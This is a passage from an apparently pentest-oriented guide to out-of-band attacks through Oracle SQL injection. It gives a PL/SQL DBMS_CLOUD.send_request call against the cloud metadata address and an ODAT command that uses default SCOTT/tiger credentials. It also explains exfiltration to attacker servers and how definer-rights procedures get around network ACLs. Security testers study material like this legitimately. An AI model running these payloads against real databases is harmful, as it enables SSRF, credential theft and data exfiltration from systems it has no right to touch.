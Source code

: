 ```sql
  resp := DBMS_CLOUD.send_request(
             credential_name => 'NOAUTH',
             uri             => 'http://169.254.169.254/latest/meta-data/',
             method          => 'GET',
             timeout         => 3);
  dbms_output.put_line(DBMS_CLOUD.get_response_text(resp));
END;
/
```

Because `SEND_REQUEST` allows arbitrary target URIs it can be abused via SQLi for:
1. Internal port scanning / SSRF to cloud metadata services.
2. Out-of-band exfiltration over HTTPS (use Burp Collaborator or an `ngrok` tunnel).
3. Callbacks to attacker servers even when older callout packages are disabled by ACLs.

ℹ️ If you only have a classical on-prem 19c but can create Java stored procedures, you can sometimes install `DBMS_CLOUD` from the OCI client bundle — useful in some engagements.

### Automating the attack surface with **ODAT**

[ODAT – Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) has kept pace with modern releases (tested up to 19c, 5.1.1 – Apr-2022).  The `–utl_http`, `–utl_tcp`, `–httpuritype` and newer `–dbms_cloud` modules automatically:
* Detect usable callout packages/ACL grants.
* Trigger DNS & HTTP callbacks for blind extraction.
* Generate ready-to-copy SQL payloads for Burp/SQLMap.

Example: quick OOB check with default creds (takes care of ACL enumeration in the background):

```bash
odat all -s 10.10.10.5 -p 1521 -d XE -U SCOTT -P tiger --modules oob
```

### Recent network ACL restrictions & bypasses

Oracle tightened default Network ACLs in the July 2023 CPU — unprivileged accounts now receive `ORA-24247: network access denied by access control list` by default.  Two patterns still allow callouts through SQLi:
1. Target account owns an ACL entry (`DBMS_NETWORK_ACL_ADMIN.create_acl`) that was added by a developer for integrations.
2. The attacker abuses a high-privilege PL/SQL definer-rights routine (e.g. in a custom application) that *already* has `AUTHID DEFINER` and the necessary grants.

If you encounter `ORA-24247` during exploitation always search for reusable procedures:

```sql
SELECT owner, object_name
FROM   dba_objects
WHERE  object_type = 'PROCEDURE'
  AND  authid       = 'DEFINER';
```

(in many audits at least one reporting/export procedure had the needed rights).

---

## References

* Oracle Docs – `DBMS_CLOUD.SEND_REQUEST` package description and examples. 
* quentinhardy/odat – Oracle Database Attacking Tool (latest release 5.1.1, Apr-2022). 

